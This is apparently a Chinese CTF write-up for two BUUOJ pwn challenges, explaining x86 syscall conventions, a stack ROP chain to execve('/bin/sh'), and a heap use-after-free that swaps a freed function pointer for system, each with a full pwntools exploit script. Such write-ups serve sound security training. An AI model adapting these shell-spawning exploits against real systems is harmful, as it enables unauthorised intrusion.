


[TOC]


## ciscn_2019_s_3

　　32位与64位 系统调用的区别：

>　　1. 传参方式不同
>
>　　2. 系统调用号 不同
>
>　　3. 调用方式 不同

　　32位：

```
传参方式：首先将系统调用号 传入 eax，然后将参数 从左到右 依次存入 ebx，ecx，edx寄存器中，返回值存在eax寄存器

调用号：sys_read 的调用号 为 3 sys_write 的调用号 为 4

调用方式: 使用 int 80h 中断进行系统调用
```

　　64位：

```
传参方式：首先将系统调用号 传入 rax，然后将参数 从左到右 依次存入 rdi，rsi，rdx寄存器中，返回值存在rax寄存器

调用号：sys_read 的调用号 为 0 sys_write 的调用号 为 1

stub_execve 的调用号 为 59 stub_rt_sigreturn 的调用号 为 15

调用方式: 使用 syscall 进行系统调用
```

调用：\$rax\=\=59，\$rdi\=\=“/bin/sh”，\$rsi\=\=0，\$rdx\=\=0

首先往栈上写0x400，然后从栈上读0x30

经过调试发现输入后返回的是写入栈上的位置。



将0x00007ffe7d621e58减去0x00007ffe7d621d40得到0x118（固定）

所以经过recv的地址减去0x118就是写入/bin/sh的地址

有个gadgets函数：


其中的0x3B就是59，系统调用，

> hex(0x00007ffe7d621e58 - 0x7ffe7d621d40)
> '0x118'


r12是将要执行的地址。

```python
from pwn import *
io = remote('node3.buuoj.cn',26613)
#io = process("./ciscn_s_3")
vulun_addr = 0x4004ED
mov_rax = 0x4004E2
pop_rbx_rbp_r12= 0x40059a
mov_call = 0x400580
sys_call = 0x400517
pop_rdi = 0x04005a3

payload = b"/bin/sh\x00"*2 + p64(vulun_addr)
io.send(payload)
io.recv(0x20)

bin_sh_add = u64(io.recv(8))-0x118
payload = b"/bin/sh\x00"*2 + p64(pop_rbx_rbp_r12)+p64(0)*2+ p64(bin_sh_add+0x50) + p64(0)*3

payload +=  p64(mov_call)+p64(mov_rax) +p64(pop_rdi)+ p64(bin_sh_add) + p64(sys_call)

io.sendline(payload)

io.interactive()
```


## ciscn_2019_n_3

new()中，分为两种type，一种是整形，一种是字符串，字符串的话将地址放在chunk中。

分配的0x10的有8byte写了两个函数的地址。（str_printf和str_free）

所以直接将free的地址改为system然后执行就OK。

这道题第一开始一直没太搞懂。



他delete了1和2之后，bin中有了两个，再下来new3 写入的时候，首先是malloc了1e0的那个位置，之后存放的地址是1a0那里，一直以为是1f0的位置。。。所以写入的sh+system的地址是1a0。

还有就是为什么sh的地址是1a0，可以这样查看，

exp：

```python
from pwn import *

p = process("./ciscn_2019_n_3")
context.log_level = 'debug'
elf = ELF("ciscn_2019_n_3")
def newnote(idx,type,value,length=0):
    p.recvuntil("CNote > ")
    p.sendline(str(1))
    p.recvuntil("Index > ")
    p.sendline(str(idx))
    p.recvuntil("Type > ")
    p.sendline(str(type))
    if type == 1:
        p.recvuntil("Value > ")
        p.sendline(str(value))
    else:
            p.recvuntil("Length > ")
            p.sendline(str(length))
            p.recvuntil("Value > ")
            if length == 8:
                p.send(value)
            else:
                p.sendline(value)
def delnote(idx):
    p.recvuntil("CNote > ")
    p.sendline(str(2))
    p.recvuntil("Index > ")
    p.sendline(str(idx))
def shownote(idx):
    p.recvuntil("CNote > ")
    p.sendline(str(3))
    p.recvuntil("Index > ")
    p.sendline(str(idx))

newnote(0,2,'a'*0x10,0x2c)
newnote(1,2,'b'*0x10,0x2c)
newnote(2,2,'c'*0x10,0x2c)

delnote(1)
delnote(2)
#gdb.attach(p)
newnote(3,2,'sh\x00\x00'+ p32(elf.plt['system']),0xc)
gdb.attach(p)
delnote(1)

p.interactive()
```

